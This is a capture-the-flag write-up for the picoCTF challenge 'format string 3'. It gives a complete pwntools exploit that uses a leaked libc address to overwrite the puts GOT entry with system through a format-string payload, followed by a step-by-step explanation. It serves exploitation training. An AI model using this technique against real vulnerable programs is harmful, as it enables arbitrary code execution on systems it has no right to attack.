

# format string 3

```markdown
Tags: `Binary Exploitation` `format_string` `browser_webshell_solvable`
```

## **Description**

This program doesn't contain a win function. How can you win?

<figure><figcaption></figcaption></figure>

## **Solution Strategy**

```python
from pwn import *

def extract_address(output):
    hex_string = output.decode().strip()
    hex_value = int(hex_string, 16)
    return(hex_value)

def create_var_length_payload(num_chars):
    payload = b'' + str(num_chars).encode()
    payload = b'%' + (b'0' * (14-len(payload))) + payload + b'x'
    print(str(payload))
    return payload

def main():
    
    binary = ELF('./format-string-3')
    got_puts_address = binary.got.puts
    print("puts address = " + hex(got_puts_address))
    
    p = remote('rhea.picoctf.net', 61541)

    initial_output = p.recvuntil("Okay I'll be nice. Here's the address of setvbuf in libc: ")
    setvbuf_address = extract_address(p.recvline())
    print(type(setvbuf_address))
    print(f"Extracted setvbuf address: {hex(setvbuf_address)}")
    system_address = setvbuf_address - 0x2AC90
    print(f"Calculated system address: {hex(system_address)}")

    system_address_lo_3 = (system_address & 0xFF)
    system_address_lo_2 = (system_address & 0xFFFF00) >> 8
    system_address_lo_1 = (system_address & 0xFFFFFFFF000000)>>24

    print(f"Masked LO 3 system address: {hex(system_address_lo_3)}")
    print(f"Masked LO 2 system address: {hex(system_address_lo_2)}")
    print(f"Masked LO 1 system address: {hex(system_address_lo_1)}")

    if system_address_lo_2 < system_address_lo_3:
        print("system_address_lo_2 < system_address_lo_3")
        exit()

    if system_address_lo_1 < system_address_lo_2:
        print("system_address_lo_1 < system_address_lo_2")
        exit()

    exploit = create_var_length_payload(system_address_lo_3)
    exploit += b'%47$hhnA'

    exploit += create_var_length_payload(system_address_lo_2 - (system_address_lo_3+1))
    exploit += b'%48$hnAA'

    exploit += create_var_length_payload(system_address_lo_1 - (system_address_lo_2 +2))
    exploit += b'%49$nAAA'

    exploit += p64(got_puts_address) + p64(got_puts_address + 1) + p64(got_puts_address+3)
    p.sendline(exploit)

    with open("payload", "wb") as f:
        f.write(exploit)

    p.interactive()

if __name__ == '__main__':
    main()
```

* This script exploits a format string vulnerability in the `format-string-3` binary.
* It uses the `pwn` library to interact with the remote server `rhea.picoctf.net` on port `61541`.
* The `extract_address` function converts a hexadecimal string received from the server into an integer representing an address.
* The `create_var_length_payload` function generates a payload of variable length based on the number of characters specified. It constructs a format string with the appropriate padding and number of characters to print.
* The main function performs the exploitation:
  * It retrieves the address of `setvbuf` in libc and calculates the address of `system` by subtracting an offset.
  * It masks the lower bytes of the `system` address and splits it into three parts to ensure that each part is greater than or equal to the next.
  * It constructs the exploit payload:
    * Writing the least significant byte of the `system` address at the 47th argument.
    * Writing the next byte of the `system` address at the 48th argument.
    * Writing the most significant byte of the `system` address at the 49th argument.
    * Overwriting the `got_puts_address` with the address of `system`.
  * It sends the exploit payload to the server and receives the flag.
* The script also writes the exploit payload to a file named "payload" for reference.

## Flag

<figure><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
